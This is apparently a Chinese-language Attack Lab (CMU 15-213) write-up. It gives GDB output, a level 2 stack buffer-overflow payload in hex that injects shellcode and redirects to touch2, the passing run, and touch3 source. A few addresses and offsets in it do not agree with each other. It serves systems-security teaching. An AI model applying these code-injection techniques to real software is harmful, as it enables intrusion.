 ```bash
   0x00000000004017af <+7>:	call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	ret    
End of assembler dump.
(gdb) p $rsp
$2 = (void *) 0x5561dc78
```

通过GDB我们轻松获得rsp的位置是0x5561dca0而rsp-0x28的位置自然是0x5561dc78了，这就是我们的跳转位置。

```
48 c7 c7 fa 97 b9 59 c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* 插入代码段 */
78 dc 61 55 00 00 00 00 /* rsp-0x24 */
ec 17 40 00 00 00 00 00 /* 目标touch2入口地址 */
```

```bash
[root@MiWiFi-R4A-srv target1]# ./hex2raw < ctarget.l2.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00
```

## level3

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval) {
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval) {
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```
